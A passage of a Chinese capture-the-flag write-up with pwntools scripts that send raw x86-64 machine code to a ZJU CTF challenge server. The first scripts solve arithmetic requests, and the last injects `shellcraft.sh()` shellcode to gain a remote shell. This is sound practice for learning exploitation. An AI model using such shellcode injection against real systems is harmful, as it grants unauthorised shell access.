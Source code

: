 ```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/f4b7c7c2-447c-4efa-9397-030c2919d789")

add_code = b"\xf3\x0f\x1e\xfa\x8d\x04\x37\xc3"

p.sendafter(b"Request-1: give me code that performing ADD", add_code)
p.interactive()
```

![image-20240707142740596](/Users/bruce/Library/Application Support/typora-user-images/image-20240707142740596.png)

成功进入第二个任务。按照上面的方法把 python 程序补全：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/f4b7c7c2-447c-4efa-9397-030c2919d789")

add_code = b"\xf3\x0f\x1e\xfa\x8d\x04\x37\xc3"
sub_code = b"\xf3\x0f\x1e\xfa\x89\xf8\x29\xf0\xc3"
and_code = b"\xf3\x0f\x1e\xfa\x89\xf8\x21\xf0\xc3"
or_code = b"\xf3\x0f\x1e\xfa\x89\xf8\x09\xf0\xc3"
xor_code = b"\xf3\x0f\x1e\xfa\x89\xf8\x31\xf0\xc3"

p.sendafter(b"Request-1: give me code that performing ADD", add_code)
p.sendafter(b"Request-2: give me code that performing SUB", sub_code)
p.sendafter(b"Request-3: give me code that performing AND", and_code)
p.sendafter(b"Request-4: give me code that performing OR", or_code)
p.sendafter(b"Request-5: give me code that performing XOR", xor_code)
p.interactive()
```

得到 flag 的第一部分：

![image-20240707144539172](/Users/bruce/Library/Application Support/typora-user-images/image-20240707144539172.png)

如何获得 flag 的后半部分呢？根据前面这道题，我们也希望能直接进入远程的终端找找看 flag2 所在，在 pwntools 中有一个 `shellcraft.sh()` 能让我们直接进入终端，编写 python 程序：

```python
from pwn import *
from wstube import websocket

context.arch = 'amd64'

p = websocket("wss://ctf.zjusec.com/api/proxy/f4b7c7c2-447c-4efa-9397-030c2919d789")

sc_asm = shellcraft.sh()
sc = asm(sc_asm)

p.sendafter(b"Request-1: give me code that performing ADD", sc) # 直接强行进入终端
p.interactive()
```
